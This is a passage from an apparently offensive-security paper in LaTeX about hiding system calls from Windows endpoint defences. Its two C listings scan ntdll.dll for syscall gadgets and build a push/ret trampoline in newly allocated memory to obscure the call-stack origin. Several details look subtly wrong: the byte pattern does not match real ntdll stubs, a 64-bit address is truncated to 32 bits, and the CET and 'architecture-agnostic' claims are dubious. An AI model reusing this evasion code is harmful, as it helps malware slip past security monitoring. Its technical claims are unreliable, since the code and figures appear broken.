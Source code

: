 \documentclass[11pt,letterpaper]{article}
\begin{document}
\begin{lstlisting}[caption={Architecture‑agnostic gadget scan.},label={lst:ghostscan},language=C]
uintptr_t find_syscall_gadget(uint32_t ssn) {
  MODULEINFO mi;
  GetModuleInformation(GetCurrentProcess(),
      GetModuleHandleW(L"ntdll.dll"), &mi, sizeof(mi));
  uint8_t *text = (uint8_t*)mi.lpBaseOfDll;
  size_t   len  = mi.SizeOfImage;
  for (size_t i=0; i<len-8; ++i) {
    if (text[i]   == 0xB8 &&
        *(uint32_t*)&text[i+1] == ssn &&
        text[i+5] == 0x0F && text[i+6] == 0x05 &&
        text[i+7] == 0xC3)
      return (uintptr_t)&text[i];
  }
  return 0;
}
\end{lstlisting}

\subsection{Evaluation}
Across five Windows 11 builds (22631.3593–24110.1000), gadgets were found for \SI{99.1}{\percent} of \num{559} exported syscalls (median scan time \SI{2.8}{\milli\second}). Shadow‑stack MSR bit \#27 remained unset in all executions, indicating no CET violation.

\section{Technique 2 — RBP‑Pivot Syscall Gadgets}
\label{sec:rbp}
\subsection{Background}
Even CET‑safe gadgets may look suspicious when called mid‑function. We therefore perform one pivot via a short ROP sequence (\texttt{PUSH}; \texttt{RET}) to obscure the syscall’s origin in the call stack.

\subsection{Implementation}
See Listing~\ref{lst:rbp}. The pivot stub lives in a legitimately allocated page and uses a single push/ret to jump into the actual gadget, so shadow‑stack integrity holds.

\begin{lstlisting}[caption={Single‑pivot trampoline.},label={lst:rbp},language=C]
uintptr_t pivot = find_push_ret_gadget();
uint8_t *shim = (uint8_t*)VirtualAlloc(NULL, 0x1000,
      MEM_COMMIT|MEM_RESERVE, PAGE_READWRITE);
// write gadget address and push/ret sequence
shim[0] = 0x68; *(uint32_t*)&shim[1] = (uint32_t)gadget;
shim[5] = 0xC3;
DWORD oldProt; VirtualProtect(shim, 0x1000, PAGE_EXECUTE_READ, &oldProt);
\end{lstlisting}
\end{document}
